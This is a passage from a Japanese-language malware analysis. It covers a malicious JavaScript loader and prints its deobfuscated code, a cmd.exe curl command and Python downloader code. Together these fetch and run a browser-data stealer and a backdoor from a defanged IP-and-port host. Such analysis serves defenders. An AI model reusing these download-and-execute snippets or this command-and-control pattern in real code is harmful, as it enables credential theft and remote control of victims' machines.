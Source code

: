 - 外部通信をする個所の内容
```javascript
// pl=r[$("YcGxhdGZvcm0")]()
// r=require("os"), YcGxhdGZvcm0 -> platform
pl=os["platform"]()
nt=async()=>await new Promise(((t,c)=>{
	if("w"!=pl[0])(()=>{  // window or not
		const t=l(),c=e(u),r=e(i),$=e(o),n=e(Z),s=e("cHl0aG9u"),y=`${t}${c}/${h}`,d=`${hd}${n}`; // y is URL, d is download destination
		let b=`${s}3 "${d}"`;
		rq[$](y,((t,c,$)=>{t||(a[r](d,$),ex(b,((t,c,a)=>{})))})) // rq is request module
	})();
	else{
		p(`${`${hd}${e(y+d)}`}`)?(()=>{const t=l(),c=e(u),r=e(o),$=e(i),n=e(Z),s=`${t}${c}/${h}`,b=`${hd}${n}`,m=`"${hd}${e(y+d)}" "${b}"`;
		try{K(b)}catch(t){}rq[r](s,((t,c,r)=>{if(!t)try{a[$](b,r),ex(m,((t,c,a)=>{}))}catch(t){}}))})():rt()
	}
}));
```

これらを通して、以下のURLにアクセスしてpythonをダウンロードします。
- hxxp[://]147[.]124[.]214[.]129:1244/s2PoOA8 にGETでアクセス
- アクセス結果を、{対象ユーザのHOMEDIR}/.npl
- ダウンロードしたファイルをpython3で実行

ここでダウンロードしたpython以外にpythonバイナリ自体をcmd.exeを経由してダウンロードする処理もあります。  

```cmd
C:\Windows\system32\cmd.exe /d /s /c "curl -Lo "C:\Users\ADMINI~1\AppData\Local\Temp\2\p.zi" "hxxp[://]147[.]124[.]214[.]129:1244/pdown""
```


さて、ダウンロードされたpythonでどんな動きがあるか見てみたいと思います。  

#### 悪性pythonコード

悪性のpythonコードは、以下2つのURLからそれぞれ悪性pythonコードをダウンロードして実行します。

1. hxxp[://]147[.]124[.]214[.]129:1244/brow/s2PoOA8
   1. こちらはブラウザから情報窃取するための専用コード
2. hxxp[://]147[.]124[.]214[.]129:1244/payload/s2PoOA8
   1. こちらは多機能なバックドア

- No1: バックドアをダウンロードするコード
```python
ap = pd + "/pay"
def download_payload():
    if os.path.exists(ap):
        try:os.remove(ap)
        except OSError:return True
    try:
        if not os.path.exists(pd):os.makedirs(pd)
    except:pass

    try:
        aa = requests.get(host2+"/payload/"+sType, allow_redirects=True)
        with open(ap, 'wb') as f:f.write(aa.content)
        return True
    except Exception as e:return False
```

